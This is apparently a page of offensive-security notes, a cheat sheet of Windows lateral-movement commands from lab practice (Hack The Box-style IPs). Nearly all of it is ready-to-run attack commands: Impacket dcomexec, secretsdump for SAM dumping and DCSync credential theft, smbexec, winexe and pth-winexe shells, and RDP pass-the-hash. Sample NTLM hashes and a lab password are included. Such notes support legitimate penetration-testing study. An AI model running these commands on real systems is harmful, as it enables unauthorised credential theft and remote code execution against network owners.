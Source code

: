 ```bash
dcomexec.py -object MMC20 [domain]/[user]:[password]@[host]
dcomexec.py -object MMC20 htb/someuser@somehost -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

### Impacket: secretsdump.py

This allows you to remotely dump secrets without requiring a shell on the target.

* Dump SAM to extract NTLM hashes of local users
* Use DCSync to extract domain credentials

```bash
secretsdump.py [domain]/[user]@[host]

# only dcsync
secretsdump.py -just-dc [domain]/[user]@[host] -hashes [nl]:[nt]
```


## SMB Code Execution

Gain a shell via SMB. Requires admin credentials or NTLM hash.

**Winexe**

```bash
winexe -U 'admin%password123' //<target_ip> cmd.exe
```

**Pass the Hash**

```bash
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:<ntlm_hash>' //<target_ip> cmd.exe
```

**Impacket** can also do this, but the shell is a bit more rudimentary:

```bash
smbexec.py SECNOTES/Administrator:u6!4ZwgwOM#^OBf#Nwnh@10.10.10.97
smbexec.py DOMAIN/username:password@host

smbexec.py DOMAIN/username@host -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

**RDP via pass-the-hash**

```bash
# you can install this on Kali
sudo apt update
sudo apt install freerdp-x11

freerdp-x11 /u:offsec /d:somedomain /pth:aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537 /v:10.10.10.102
```

